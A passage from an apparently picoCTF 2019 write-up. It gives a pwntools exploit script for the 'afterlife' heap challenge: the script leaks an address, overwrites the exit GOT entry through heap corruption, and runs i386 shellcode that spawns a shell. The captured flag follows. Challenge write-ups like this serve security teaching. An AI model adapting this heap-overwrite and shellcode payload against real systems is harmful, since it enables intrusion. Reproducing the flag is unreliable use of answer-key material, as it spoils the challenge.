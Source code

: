 ```python


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process([BINARY, 'AAAAAAAABBBBBBBB'], stdout=stdout, stdin=stdin)

  if DEBUG:
    attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process(['vuln', 'AAAAAAAABBBBBBBB'], cwd='/problems/afterlife_6_1c6bc56bd64007e5162e284db4d03df5')
  REMOTE = True

leak = int(sh.recvuntil('you').split('\n')[-2])

print hex(leak)

exit_got = 0x804d02c

payload = p32(exit_got-12) 
payload += p32(leak+8)
payload += asm('''
  jmp sc
  {}
sc:
  nop
  '''.format('nop\n'*100)+shellcraft.i386.linux.sh())
print enhex(payload)

assert len(payload) <= 256

payload = payload.ljust(256)

sh.sendlineafter('...\n', payload)

sh.interactive()
```

flag: `picoCTF{what5_Aft3r_d2d97c7b}`

# L1im1tL355
